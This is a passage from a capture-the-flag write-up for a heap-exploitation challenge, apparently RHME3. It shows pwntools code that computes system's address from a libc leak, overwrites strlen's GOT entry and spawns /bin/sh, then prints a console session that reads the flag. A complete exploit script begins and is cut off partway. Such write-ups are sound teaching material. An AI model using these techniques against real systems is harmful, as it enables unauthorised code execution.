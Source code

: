 Now we can finally calculate the address of system, overwrite the GOT
entry of strlen and call the function system instead of strlen when
we are editing a name:

```python
# Calculate the address of system
leak += '\x00' * (8-len(leak))      
addr_system = unpack(leak) - 0x46390
log.info("Address system: 0x%x" % addr_system)

# Overwrite the reloc of strlen
edit_name(pack(addr_system)[:-1])

# Call the function system
edit_name("/bin/sh")
r.clean(1)

# Enjoy
r.interactive()
```

And...get the flag:

```console
$ python exploit.py
[+] Opening connection to pwn.rhme.riscure.com on port 1337: Done
[*] Address system: 0x7f53c27d7390
[*] Switching to interactive mode
$ ls
flag
main.elf
$ cat flag
RHME3{h3ap_0f_tr0uble?}
```


Here is the complete script:

```python
from pwn import *

# Run process
context(arch = 'amd64', os = 'linux', bits=64)
#r = remote('pwn.rhme.riscure.com','1337')
r = process(['./main.elf.patched'])

def add_player(name):
    r.sendline("1")
    r.sendline(name)
    r.sendline("1")
    r.sendline("1")
    r.sendline("1")
    r.sendline("1")

def rm_player(i):
    r.sendline("2")
    r.sendline(str(i))

def select_player(i):
    r.sendline("3")
    r.sendline(str(i))

def edit_name(name):
    r.sendline("4")
    r.sendline("1")
    r.sendline(name)
    r.sendline("0")
```